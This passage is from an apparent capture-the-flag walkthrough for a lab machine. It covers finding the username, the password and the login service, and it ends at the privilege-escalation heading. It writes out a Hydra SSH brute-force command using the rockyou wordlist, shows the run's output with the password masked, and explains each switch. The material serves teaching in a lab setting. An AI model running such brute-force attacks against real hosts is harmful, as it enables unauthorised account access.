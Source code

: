 For this task, we do not need to answer any question but at least we know the names of the two users on the box.

5. What is the username? 

In the previous question, we discovered that two users are present on the box. We can try entering the name of both the users one by one in the answer box for this question and the correct one would get accepted.

6. What is the password?

`Hydra` is one such tool that can be used to bruteforce passwords over numerous protocols. We can use the same here and bruteforce the password for the user that was accepted in the last question. The command and output for the same are given below:

```
tester@kali:~$ hydra -l <username> -P /usr/share/wordlists/rockyou.txt -ens -f 10.10.210.4 ssh -t 4
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 19:28:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344401 login tries (l:1/p:14344401), ~3586101 tries per task
[DATA] attacking ssh://10.10.210.4:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344357 to do in 5433:29h, 4 active
[STATUS] 28.33 tries/min, 85 tries in 00:03h, 14344316 to do in 8437:50h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344197 to do in 8203:23h, 4 active
[STATUS] 28.20 tries/min, 423 tries in 00:15h, 14343978 to do in 8477:32h, 4 active
[22][ssh] host: 10.10.210.4   login: <username>   password: xxxxxxx
[STATUS] attack finished for 10.10.210.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 19:57:02
```

The switches used here with hydra are:

|Switch|Use|
|------|---|
|-l|Username whose password is to be frute-forced|
|-P|The password dictionary|
|-e|Additional check `n` for null password and `s` for try login as pass|
|-f|Exit after first found login/password pair|
|-t|Number of connections that you want to run in parallel|
|ssh|Brute-force the password for SSH login|

So, now we have the password for the account. This is used as the answer to this question.

7. What service do you use to access the server(answer in abbreviation in all caps)?

We have used hydra to get the password for this service in the last question itself.

### Privilege Escalation
8. Enumerate the machine to find any vectors for privilege escalation 
